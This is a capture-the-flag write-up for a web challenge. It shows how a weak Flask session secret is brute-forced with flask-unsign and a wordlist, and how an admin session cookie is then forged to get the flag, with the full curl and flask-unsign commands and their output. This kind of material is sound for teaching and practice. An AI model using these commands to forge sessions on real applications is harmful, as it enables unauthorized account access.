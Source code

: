 # Genshin Code

**Challenge Category: Web** <br />
**Challenge Points: 500**

## Challenge Description

Bro said I can get 500 free rolls if I can log in to the administrator accounts. But I need to make sure my log in cookie is correct first...

`genshin.nypinfosec.com`

## Analysis

### 1. Login Form

Sending a GET request to the domain presents us a normal login form, with attributes `action="/login"` and `method="POST"`.

```sh
$ curl https://genshin.nypinfosec.com
```

```html
<form id="sign-up-form" action="/login" method="POST">
  <div class="form-group my-3">
    <label for="email">Username</label>
    <input
      type="text"
      class="form-control"
      name="username"
      placeholder="Enter Username"
    />
  </div>
  <div class="form-group my-3">
    <label for="password">Password</label>
    <input
      type="password"
      class="form-control"
      name="password"
      placeholder="Password"
    />
  </div>
  <div class="button-container">
    <button type="submit">Log In</button>
  </div>
</form>
```

### 2. Send Random Login Credentials

Since we know the login endpoint is at `/login`, we can attempt to login using a random `username` and `password` combination to see what we get.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>Redirecting...</title>
  <h1>Redirecting...</h1>
  <p>
    You should be redirected automatically to the target URL:
    <a href="/flag">/flag</a>. If not, click the link.
  </p>
</html>
```

This doesn't look right. No way did we supply some random `username` and `password` and we get logged in.

In the challenge description, they hinted something to do with cookies. Let's check the headers received.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login -v
```

```diff
  *   Trying 172.67.146.217:443...
  * Connected to genshin.nypinfosec.com (172.67.146.217) port 443 (#0)
  ...[truncated]...
  > POST /login HTTP/2
  > Host: genshin.nypinfosec.com
  > user-agent: curl/7.88.1
  > accept: */*
  > content-length: 25
  > content-type: application/x-www-form-urlencoded
  >
  ...[truncated]...
  < HTTP/2 302
  < date: Sun, 24 Dec 2023 15:21:30 GMT
  < content-type: text/html; charset=utf-8
  < location: /flag
  < vary: Cookie
+ < set-cookie: mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I; HttpOnly; Path=/
  ...[truncated]...
  <
  <!DOCTYPE html>
  <html lang="en">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>
      You should be redirected automatically to the target URL:
      <a href="/flag">/flag</a>. If not, click the link.
    </p>
  </html>
  * Connection #0 to host genshin.nypinfosec.com left intact
```

As hinted, a cookie was set in the response.

### 3. The `/flag` Endpoint

We'll use the cookie from before and try the `/flag` endpoint as redirected now.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" https://genshin.nypinfosec.com/flag
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>403 Forbidden</title>
  <h1>Forbidden</h1>
  <p>
    You don&#39;t have the permission to access the requested resource. It is
    either read-protected or not readable by the server.
  </p>
  * Connection #0 to host genshin.nypinfosec.com left intact
</html>
```

As expected, the cookie issued from the server does not work.

### 4. The Cookie Issued

The cookie issued by the server resembles much of a JWT token. We can try to decode it and see what is inside.

![JWT Decode](../.files/web_genshin_code.png "JWT Decode")

We definitely get something back. But, this token doesn't seem up-to-spec with [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) because the payload is in the header, and there is no header to begin with.

```diff
### DECODED HEADER ###
+ Expected: {"typ":"jwt","alg":"HS256"}
- Decoded:  {"logged_in":false}

### DECODED PAYLOAD ###
+ Expected: {"logged_in":false}
- Decoded:  "e�Dv"
```

## Solution

1. We know that we must authenticate via a JWT token.
2. We know that the JWT token supplied is out-of-spec and can't be manipulated without the right tools. Let's install the right tools for the job.

```sh
pip3 install flask-unsign flask-unsign[wordlist]
```

3. Decrypt the issued JWT token using bruteforce

```sh
$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" --wordlist flask_unsign_wordlist/wordlists/all.txt
```

```
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2432): -----BEGIN PRIVATE KEY--------
[+] Found secret key after 19584 attemptsyyew6kIByris
'password'
```

4. Change the `logged_in` field to `True` and sign the new JWT token with the same key.

```sh
$ flask-unsign --sign --cookie "{'logged_in':True}" --secret password
```

```
eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M
```

5. Use the manipulated JWT token in the request back to the server

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text -
```

```
       Damn You Are This Good...     "NYP{fL@sK_s3ss1On    _m@N1pulAT10N}"
```

We found the flag. Let's cleanup the output a little.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text - | tr -d " " | grep -o "NYP{.*}"
```

```
NYP{fL@sK_s3ss1On_m@N1pulAT10N}
```

## Additional Read

- [Baking Flask cookies with your secrets](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)
